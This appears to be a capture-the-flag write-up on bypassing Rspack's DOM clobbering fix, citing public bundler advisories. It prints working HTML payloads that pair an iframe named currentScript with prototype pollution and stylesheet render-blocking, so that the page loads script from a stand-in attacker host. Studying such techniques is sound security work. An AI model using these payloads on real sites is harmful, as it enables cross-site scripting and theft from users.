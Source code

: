 - Vite: https://github.com/vitejs/vite/security/advisories/GHSA-64vr-g452-qvp3
- Webpack: https://github.com/webpack/webpack/security/advisories/GHSA-4vvj-4cpr-p986
- Rollup: https://github.com/rollup/rollup/security/advisories/GHSA-gcx4-mw62-g8wm
- Rspack: https://github.com/web-infra-dev/rspack/security/advisories/GHSA-84jw-g43v-8gjm

Rspack, used in this challenge, is one such library.

:::info
The reporter of the above CVEs has created a repository collecting DOM Clobbering gadgets:

- https://github.com/jackfromeast/dom-clobbering-collection
:::

In Rspack, when using dynamic imports, scripts are loaded from URLs based on `document.currentScript.src`:
```javascript
if (document.currentScript)
  scriptUrl = document.currentScript.src;
```

However, if you could inject HTML like the following, it would allow arbitrary script loading, leading to XSS:
```html
<img name="currentScript" src="https://attacker.example/" />
```

To mitigate this DOM Clobbering attack, the following check was added:
```javascript
if (document.currentScript && document.currentScript.tagName.toUpperCase() === 'SCRIPT')
  scriptUrl = document.currentScript.src;
```

This challenge uses Rspack version 1.3.9, which includes this fix.

Can this DOM Clobbering countermeasure be bypassed?

Yes, it can be bypassed **if a Prototype Pollution vulnerability exists!**

Specifically, you can bypass it by injecting HTML like this:
```html
<iframe name=currentScript srcdoc="
<script>
// Prototype Pollution
({}).__proto__.tagName = 'SCRIPT';
({}).__proto__.src = 'https://attacker.example/';
</script>
"></iframe>
```

In this case, `document.currentScript.tagName` will evaluate to `"SCRIPT"`.

In practice, you need to wait for the iframe's content to render. This can be achieved by delaying the main script execution until the iframe's content is rendered, for example, by using multiple `<link rel=stylesheet>` tags to block rendering:
```html
<iframe name=currentScript srcdoc="
<script>
({}).__proto__.tagName = 'SCRIPT';
({}).__proto__.src = 'https://attacker.example/';
</script>
"></iframe>
<link rel=stylesheet href=/0>
<link rel=stylesheet href=/1>
<link rel=stylesheet href=/2>
<link rel=stylesheet href=/3>
<link rel=stylesheet href=/4>
<link rel=stylesheet href=/5>
<link rel=stylesheet href=/6>
```
